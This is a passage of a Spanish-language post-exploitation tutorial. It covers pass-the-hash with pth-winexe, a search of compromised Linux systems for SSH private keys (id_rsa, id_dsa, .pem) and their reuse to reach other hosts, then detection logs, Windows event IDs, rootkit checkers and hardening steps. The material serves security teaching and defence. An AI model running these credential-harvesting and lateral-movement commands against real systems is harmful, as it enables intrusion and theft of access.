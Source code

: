 ```bash
# Usando herramientas como pth-winexe (simulado)
pth-winexe -U DOMAIN/user%LM:NT //target.ip cmd.exe
```

#### SSH Key Reuse (Linux)

```bash
# Buscar claves SSH en el sistema comprometido
find / -name "id_rsa" 2>/dev/null
find / -name "id_dsa" 2>/dev/null
find / -name "*.pem" 2>/dev/null

# Usar claves encontradas para acceder a otros sistemas
ssh -i /path/to/key user@target_host
```

## Fase 5: Detección y Mitigación

### Indicadores de Post-Explotación

#### Logs a Monitorear

```bash
# Linux - Logs importantes
/var/log/auth.log          # Autenticaciones
/var/log/syslog           # Sistema general
/var/log/cron.log         # Cron jobs
~/.bash_history           # Historial de comandos

# Windows - Event Logs
Security Event Log (4624, 4625, 4648, 4672)
System Event Log (7045 - Service installation)
Application Logs
PowerShell Logs (4103, 4104)
```

#### Herramientas de Detección

```bash
# Herramientas para Linux
rkhunter --check          # Rootkit hunter
chkrootkit                # Otro detector de rootkits
aide --check              # File integrity checker

# Para Windows
sfc /scannow              # System file checker
Get-WinEvent              # PowerShell para event logs
```

### Estrategias de Mitigación

1. **Hardening del Sistema**
   - Parches regulares
   - Configuración segura de servicios
   - Principio de menor privilegio
